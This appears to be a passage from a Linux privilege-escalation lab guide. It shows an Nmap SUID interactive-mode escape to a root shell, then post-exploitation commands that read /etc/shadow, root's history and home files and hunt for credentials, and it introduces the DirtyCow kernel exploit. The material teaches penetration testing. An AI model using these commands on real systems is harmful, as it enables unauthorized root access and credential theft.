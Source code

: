\*\*SUID binary \*\*``

- This version of Nmap allows interactive mode (`--interactive`), which can lead to root.

**Steps to abuse it:**

```bash
/usr/bin/nmap --interactive
!sh
```

This drops you into a root shell because the SUID bit executes Nmap as root.

**Why it works:**

- `nmap` is owned by root and has the SUID bit set
- It allows running system commands in interactive mode
- That gives the attacker a root shell

### 🔹 Task 3: Post-Exploitation: What to Do Once You're Root

Once you have root access, a real penetration tester would:

- **Confirm it**:

  ```bash
  whoami
  id
  ```

- **Collect sensitive data**:

  ```bash
  cat /etc/shadow
  ls -la /root
  cat /root/.bash_history
  find /home -type f
  ```

- **Search for credentials, tokens, or API keys**

- **Dump user info for potential lateral movement**

- **Take screenshots or save logs for reporting**

Your task is to demonstrate that you gained root and understand how to explore the system responsibly.

---

## 🌟 Bonus Tasks

### 🟢 Bonus Task 1: Try DirtyCow (Kernel Exploit)

**What is DirtyCow?** DirtyCow (CVE-2016-5195) is a kernel vulnerability that allows a regular user to write to read-only files. It's called Dirty *COW* because it's a bug in the Copy-On-Write system. It lets attackers modify `/etc/passwd` to add a new root user.
